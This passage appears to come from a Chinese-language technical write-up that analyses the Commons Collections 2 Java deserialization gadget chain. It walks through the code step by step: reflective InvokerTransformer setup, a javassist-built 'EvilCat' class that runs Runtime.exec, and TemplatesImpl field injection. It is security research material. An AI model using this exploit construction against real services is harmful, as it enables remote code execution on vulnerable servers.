```java
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```
由于这个链于第一个payload 不同，在这里我讲解每一段代码的用法
#### 0x1 
通过反射实例化`InvokerTransformer`对象，设置`InvokerTransformer`的`methodName`为`newTransformer`；  
**这里做的目的是为了调用后面我们设置的**`**TemplatesImpl**`**的**`**newTransformer**`**方法，而这个**`**Tcomparator**`**就如第一个poc一样，将进入**`**comparator.compare()**`**方法，进行**`**transform**`**方法，进而执行**`**method.invoke(input,this.args)**`**，为后续做铺垫**
```java
Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
constructor.setAccessible(true);
InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
TransformingComparator Tcomparator = new TransformingComparator(transformer);
PriorityQueue queue = new PriorityQueue(1);
```
#### 0x2
这里需要使用javassit对应的代码，为什么要继承AbstractTranslet类？这里为什么要将类转换成`byte`数据，并且还一定要放置在`byte[][]`中？
```java
//实例化一个ClassPool容器
ClassPool pool = ClassPool.getDefault();
//向pool容器类搜索路径的起始位置插入AbstractTranslet.class
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
//新建一个CtClass，类名为Cat
CtClass cc = pool.makeClass("Cat");
//设置一个要执行的命令
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
//制作一个空的类初始化，并在前面插入要执行的命令语句
cc.makeClassInitializer().insertBefore(cmd);
//重新设置一下类名，生成的类的名称就不再是Cat
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
//        cc.writeFile();
//继承AbstractTranslet类 **重点**
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
//将该类转换为字节数组
byte[] classBytes = cc.toBytecode();
//将一维数组classBytes放到二维数组targetByteCodes的第一个元素
byte[][] targetByteCodes = new byte[][]{classBytes};
```
在这里因为我们使用的`TemplatesImpl`，在其对应的`_bytecodes`参数中，是需要一个二维byte数组，并且在后续需要实例化`_bytecodes`的时候会检查是否继承了`AbstractTranslet`类
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_19_91Ugcw7j.png)
#### 0x3
在这里通过给实例化的templates中的`_bytecodes`，`_name`，`_class`赋值操作，由于这些参数都是`private`，只能通过反射赋值，且`_bytecodes`为`javassit`动态生成的恶意类，`_name`可以为任意值，但是不能为空，`_class`一定为null，为什么要这样，在调试的时候再做解释
```java
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "1");
```